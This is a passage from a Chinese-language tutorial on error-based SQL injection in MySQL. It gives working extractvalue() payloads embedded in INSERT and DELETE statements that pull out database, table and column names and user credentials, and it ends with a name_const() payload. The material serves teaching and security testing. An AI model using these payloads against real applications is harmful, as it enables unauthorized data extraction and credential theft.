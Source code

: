 ```
DELETE FROM users WHERE id=1 or extractvalue(1,concat(0x7e,database())) or'';

```

![enter image description here](http://drops.javaweb.org/uploads/images/af1b745f6c552ce7277d891ce23deaa91a1b9d29.jpg)

提取数据：

同样，在insert、update、delete用法一致的时候，我会仅以insert为例说明。

获取newdb数据库表名：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 1,1))) or'', 'Nervo');

```

![enter image description here](http://drops.javaweb.org/uploads/images/ac09c381fc3562aeeb336affebcef386387be323.jpg)

获取users表的列名：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1))) or'', 'Nervo');

```

![enter image description here](http://drops.javaweb.org/uploads/images/332205c9cc82957fc6125c6fd6cc6d2e3b4ba64f.jpg)

获取users表的数据：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat_ws(':',id, username, password) FROM users limit 0,1))) or '', 'Nervo');

```

![enter image description here](http://drops.javaweb.org/uploads/images/58526de0290e3e1b0a9ac86873196c72b5e2741e.jpg)

同样，我们可以用insert、update、delete语句获取到数据库表名、列名，但是不能用update获取当前表的数据。

0x05 利用name_const()获取数据
-----------------------

* * *

name_const()函数是MYSQL5.0.12版本加入的一个返回给定值的函数。当用来产生一个结果集合列时 , NAME_CONST() 促使该列使用给定名称。

Payload：

```
or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or

```
